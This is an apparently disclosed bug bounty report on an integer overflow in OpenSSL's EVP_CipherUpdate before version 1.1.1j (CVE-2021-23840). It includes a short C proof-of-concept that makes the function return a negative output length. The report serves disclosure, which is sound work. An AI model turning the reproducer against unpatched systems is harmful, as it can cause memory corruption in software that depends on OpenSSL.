 # Integer overflow in CipherUpdate

## Report Details
- **Report ID**: 1113025
- **URL**: https://hackerone.com/reports/1113025
- **State**: Closed
- **Severity**: high
- **Submitted**: 2021-02-27T21:14:37.581Z
- **Disclosed**: 2021-04-08T03:55:44.706Z

## Reporter
- **Username**: reaperhulk
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ibb

## Vulnerability Information
## Summary:
I reported an integer overflow to the OpenSSL security list on Dec 13, 2020 and it was fixed in OpenSSL 1.1.1j. Reporting it here for the bounty. It was assigned CVE-2021-23840 (https://nvd.nist.gov/vuln/detail/CVE-2021-23840) which NVD rated CVSS 7.5. Amusingly, the same bug (worked around by my library pyca/cryptography before 1.1.1j was released) was assigned CVE-2020-36242 (https://nvd.nist.gov/vuln/detail/CVE-2020-36242), which received a 9.1 CVSS from NVD.

## Steps To Reproduce:
The below is a reproducer for prior to 1.1.1j.
```
#include <stdio.h>
#include <stdlib.h>
#include <assert.h>
#include <openssl/evp.h>

int main() {
    int res;
    EVP_CIPHER_CTX *ctx = EVP_CIPHER_CTX_new();
    assert(ctx != NULL);
    unsigned char key[] = "0000000000000000";
    unsigned char iv[] = "0000000000000000";
    res = EVP_CipherInit_ex(ctx, EVP_aes_128_cbc(), NULL, key, iv, 1);
    assert(res == 1);
    int intmax = 2147483647;
    void *inbuf = malloc(intmax);
    void *outbuf = malloc((size_t)2147483648);
    int outlen = 0;
    unsigned char data[] = "0";
    res = EVP_CipherUpdate(ctx, outbuf, &outlen, data, 1);
    printf("Processed %i bytes, outlen: %i, res: %i\n", 1, outlen, res);
    assert(res == 1);
    outlen = 0;
    res = EVP_CipherUpdate(ctx, outbuf, &outlen, (unsigned char
*)inbuf, intmax);
    assert(res == 1);
    printf("Processed %i bytes, outlen: %i, res: %i\n", intmax, outlen, res);
}
```

## Impact

This returned negative output length, which, when combined with common use of pointer arithmetic in buffers results in accessing incorrect regions of memory (typically this would manifest as a segfault due to the size of the negative value, but that is not guaranteed).

## Attachments
No attachments
